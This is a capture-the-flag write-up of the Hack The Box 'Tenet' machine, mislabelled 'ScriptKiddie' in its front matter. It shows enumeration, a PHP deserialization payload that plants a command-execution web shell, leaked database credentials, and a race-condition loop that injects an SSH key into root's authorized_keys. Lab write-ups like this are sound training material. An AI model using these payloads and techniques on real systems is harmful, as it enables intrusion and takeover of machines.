 ```yaml
---
layout: post
title: ScriptKiddie
published: false
---
```


Tenet is a medium box from Hack The Box.

### Enumeration

A nmap scan reveals only 2 ports open on the box: 22 and 80. It looks like the web server is running WordPress 5.6. Good to know.
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 cc:ca:43:d4:4c:e7:4e:bf:26:f4:27:ea:b8:75:a8:f8 (RSA)
|   256 85:f3:ac:ba:1a:6a:03:59:e2:7e:86:47:e7:3e:3c:00 (ECDSA)
|_  256 e7:e9:9a:dd:c3:4a:2f:7a:e1:e0:5d:a2:b0:ca:44:a8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.6
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Tenet
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

While I take a look at the web page, I run a wpscan in the background to enumerate any possible vulnerable plugins or themes.

`wpscan --url http://tenet.htb -e --api-token <api-token> -o wpscan.txt`

I found a few vulnerabilities but they all seem to be dead ends.

![Pasted image 20210610104151](https://user-images.githubusercontent.com/60187707/121790099-9088f500-cba1-11eb-993b-c5966a39c4ef.png)

Posts on the site reveal 2 users, `neil` and `protagonist`, which `wpscan` also found. 
A comment on a post refers to a file, `sator.php`, and its backup.

![image](https://user-images.githubusercontent.com/60187707/121790142-fe352100-cba1-11eb-89b8-3224d4ef9dc5.png)

After navigating to `/sator.php` in the browser, it looks the page is still up.

![image](https://user-images.githubusercontent.com/60187707/121790159-26248480-cba2-11eb-9028-897e05066999.png)

### Exploitation

Navigating to `/sator.php.bak` initiates a download of the file.
```

class DatabaseExport
{
	public $user_file = 'users.txt'; ## Variables?
	public $data = '';

	public function update_db()
	{
		echo '[+] Grabbing users from text file <br>';
		$this-> data = 'Success';
	}


	public function __destruct()        ## Concatenation\/
	{
		file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
		echo '[] Database updated <br>';
	//	echo 'Gotta get this working properly...';
	}
}

$input = $_GET['arepo'] ?? '';          ## $objects
$databaseupdate = unserialize($input);  ## UNSERIALIZES INPUT
echo serialize($input);

$app = new DatabaseExport;
$app -> update_db();


?>
```

PHP is a bittt over my head at the moment, but after some [reading](https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a) and some [more reading](https://notsosecure.com/remote-code-execution-via-php-unserialize/), I think I know enough to exploit it.

The PHP code accepts user input in the form of a parameter named `arepo` and then unserializes that input. There is a vulnerability in the way that PHP magic methods like `__destruct()` handle serialized objects that can lead to RCE.
So, if I craft a serialized object that contains a payload, `sator.php` will execute my payload when it unserializes my input.

```
<?php

class DatabaseExport 
{
	public $user_file = 'tron.php';
	public $data = '<?php system($_REQUEST["cmd"]); ?>';
}

$pwn = new DatabaseExport;
echo (serialize($pwn));

?>

```
Running this PHP script will output a serialized object in which I have redefined the variables `$user_file` and `$data`. When `sator.php` executes, it will create a new file named `tron.php` that contains a parameter I can interact with for RCE.

```
O:14:"DatabaseExport":2:{s:9:"user_file";s:8:"tron.php";s:4:"data";s:34:"<?php system($_REQUEST["cmd"]); ?>";}
```

Place the serialized object into the `arepo` parameter:
`10.10.10.223/sator.php?arepo=O:14:"DatabaseExport":2:{s:9:"user_file";s:8:"tron.php";s:4:"data";s:34:"<?php system($_REQUEST["cmd"]); ?>";}`

After some finagling with URL encoding via burp, I get a reverse shell on the machine.

![Pasted image 20210612153735](https://user-images.githubusercontent.com/60187707/121790353-3e959e80-cba4-11eb-9e3e-1730cd348c9f.png)

On as `www-data`:

![Pasted image 20210612154138](https://user-images.githubusercontent.com/60187707/121790360-46554300-cba4-11eb-949e-2dc4a5f0fc59.png)

### Privilege Escalation

Not much to do as `www-data`, but `neil` is also a user on this box, so I start looking for credentials of some kind.
I know that `wp-config` usually has credentials, so I go digging.

Found some credentials for `neil`. 
```
/** MySQL database username */
define( 'DB_USER', 'neil' );

/** MySQL database password */
define( 'DB_PASSWORD', 'Opera2112' );
```

SSH in as `neil` with his password, and now I can look around some more.

`sudo -l`

![Pasted image 20210612154801](https://user-images.githubusercontent.com/60187707/121790443-017ddc00-cba5-11eb-97ae-d94db40f8bfc.png)

There is a script that `neil` can run with `sudo`.

```
#!/bin/bash

checkAdded() {
	sshName=$(/bin/echo $key | /usr/bin/cut -d " " -f 3)
	if [[ ! -z $(/bin/grep $sshName /root/.ssh/authorized_keys) ]]; then
		/bin/echo "Successfully added $sshName to authorized_keys file!"
	else
		/bin/echo "Error in adding $sshName to authorized_keys file!"
	fi
}
checkFile() {
	if [[ ! -s $1 ]] || [[ ! -f $1 ]]; then
		/bin/echo "Error in creating key file!"
		if [[ -f $1 ]]; then /bin/rm $1; fi
		exit 1
	fi
}
addKey() {
	tmpName=$(mktemp -u /tmp/ssh-XXXXXXXX)
	(umask 110; touch $tmpName)
	/bin/echo $key >>$tmpName
	checkFile $tmpName
	/bin/cat $tmpName >>/root/.ssh/authorized_keys
	/bin/rm $tmpName
}

key="ssh-rsa AAAAA3NzaG1yc2GAAAAGAQAAAAAAAQG+AMU8OGdqbaPP/Ls7bXOa9jNlNzNOgXiQh6ih2WOhVgGjqr2449ZtsGvSruYibxN+MQLG59VkuLNU4NNiadGry0wT7zpALGg2Gl3A0bQnN13YkL3AA8TlU/ypAuocPVZWOVmNjGlftZG9AP656hL+c9RfqvNLVcvvQvhNNbAvzaGR2XOVOVfxt+AmVLGTlSqgRXi6/NyqdzG5Nkn9L/GZGa9hcwM8+4nT43N6N31lNhx4NeGabNx33b25lqermjA+RGWMvGN8siaGskvgaSbuzaMGV9N8umLp6lNo5fqSpiGN8MQSNsXa3xXG+kplLn2W+pbzbgwTNN/w0p+Urjbl root@ubuntu"

addKey
checkAdded
}
```

The script writes an SSH key into a file with a randomly generated name in the format `/tmp/ssh-XXXXXXXX`, then uses `cat` to append that key to `/root/.ssh/authorized_keys`. There appears to be a race condition here, as the `$tmpName` file exists during the `checkFile` process, before it's written to `authorized_keys`, so if I am constantly writing  my own SSH key to any file in the `/tmp` directory that fits the format `/tmp/ssh*`, I should be able to overwrite the root user's key. 

`while true; do echo "<id_rsa.pub> | tee /tmp/ssh* > dev/null; done &`
This one-liner will do just that. I run it in the background while I run `sudo /usr/local/bin/enableSSH.sh`. 

After a couple of tries, I can SSH in as `root` with no password.

![Pasted image 20210612170356](https://user-images.githubusercontent.com/60187707/121816382-e82a6d80-cc40-11eb-915c-8dc8e1258c65.png)




